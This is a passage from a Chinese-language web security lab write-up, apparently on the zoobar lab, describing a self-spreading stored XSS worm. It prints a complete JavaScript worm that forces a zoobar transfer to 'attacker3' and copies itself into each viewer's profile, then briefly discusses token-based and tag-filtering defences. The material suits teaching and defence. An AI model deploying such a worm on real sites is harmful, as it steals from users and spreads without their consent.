 这串代码干的事情如下，当用户查看attacker3的profile时

1. 构建一个表格，格式和修改profile页面的一致
2. 构建一个字符串，字符串内容是这串代码本身
3. 提交请求，完成profile修改

测试下效果

普通用户原来的profile

![image.png-329.2kB][24]

查看attacker3的profile之后

![image.png-345.9kB][25]

profile已被修改得和attacker3一样，当其他用户查看此用户的profile也会被感染，这就达到了递进传播的效果

这里只是简单的实现了感染的功能，通过添加代码可以实现增加攻击，这样就能够实现具有攻击性和感染性的XSS蠕虫

例，一个偷zoobar的XSS蠕虫，使用xmlhttp发送了一个转账申请

```
<span id=hack>
<script>
        xmlhttp=new XMLHttpRequest();
        xmlhttp.open("POST","http://www.myzoo.com/transfer.php",false);
        xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        xmlhttp.send("zoobars=1&recipient=attacker3&submission=Send");
var str = "<span id=hack>";
str += document.getElementById("hack").innerHTML + "</span>";
var turnForm = document.createElement("form");   
document.body.appendChild(turnForm);
turnForm.method = "post";
turnForm.action = "/index.php";
var newElement = document.createElement("input");
newElement.setAttribute("name","profile_update");
newElement.setAttribute("type","hidden");
newElement.setAttribute("value",str);
turnForm.appendChild(newElement);
var newElement2 = document.createElement("input");
newElement2.setAttribute("name","profile_submit");
newElement2.setAttribute("type","hidden");
newElement2.setAttribute("value","Save");
turnForm.appendChild(newElement2);
turnForm.submit();
</script>
</span>
```

因为偷zoobar的漏洞之前已经做了防护，效果就不展示了

### XSS蠕虫的防护
类似于CSRF，XSS蠕虫也是利用浏览器在发http请求的时候会自动带上cookie导致服务器端无法识别是用户自己的请求还是恶意代码，所以防护方式可以通过添加token域进行验证，或者禁用一些标签例如`<script>`就可以了


  [1]: http://static.zybuluo.com/windmelon/wb811isbgudgxpwq3gql295l/image.png
  [2]: http://static.zybuluo.com/windmelon/wyx5ihu7231uhd2z4zen96v0/image.png
  [3]: http://static.zybuluo.com/windmelon/459nrgijj9fcfe1mnwmocwaz/image.png
  [4]: http://static.zybuluo.com/windmelon/4apbtvxowy8byf2r8sy00vwc/image.png
  [5]: http://static.zybuluo.com/windmelon/zhv22vh8kiee315pynnekpay/image.png
  [6]: http://static.zybuluo.com/windmelon/oyxu17g61e73obkuqpicdt5s/image.png
  [7]: http://static.zybuluo.com/windmelon/zueizan9qwib440o3u7e65r1/image.png
  [8]: http://static.zybuluo.com/windmelon/yuz8tlyumpk4iley96kh2zat/image.png
  [9]: http://static.zybuluo.com/windmelon/4sl9akwn8wkif8saiz18ych2/image.png
  [10]: http://static.zybuluo.com/windmelon/an7u931j8d3k2kloew2dqx4s/image.png
  [11]: http://static.zybuluo.com/windmelon/cm5fhx4rqefxyqgf9bf54mye/image.png
  [12]: http://static.zybuluo.com/windmelon/onasvozrwzjeke0v79ou4gf6/image.png
  [13]: http://static.zybuluo.com/windmelon/f2p365lanf3o5z0m81oissef/image.png
  [14]: http://static.zybuluo.com/windmelon/td0ujhhpj98huuavszqte7af/image.png
  [15]: http://static.zybuluo.com/windmelon/e2i42q655dvysq1vzib6db4o/image.png
  [16]: http://static.zybuluo.com/windmelon/oh1qedj7ib0l4zassgjw3egx/image.png
  [17]: http://static.zybuluo.com/windmelon/uztoeycovas7djn70ufmnxv6/image.png
  [18]: http://static.zybuluo.com/windmelon/1ukhzrrze1yfio0jr0dfecot/image.png
  [19]: http://static.zybuluo.com/windmelon/hq9z9c0vqadofbneknehndmu/image.png
  [20]: http://static.zybuluo.com/windmelon/4xzlyz6fwizmhi5cwruwj0fy/image.png
  [21]: http://static.zybuluo.com/windmelon/82u2r6moargordan63iegyl4/image.png
  [22]: http://static.zybuluo.com/windmelon/u1v3flj7eqqdtuadwdggo3b7/image.png
  [23]: http://static.zybuluo.com/windmelon/7zqenr92vyowh26fhqrgn4oi/image.png
  [24]: http://static.zybuluo.com/windmelon/7pg51wksqvjvf8abqrfsrgk7/image.png
  [25]: http://static.zybuluo.com/windmelon/k0r0eu13ls0ig234fwn3tsnj/image.png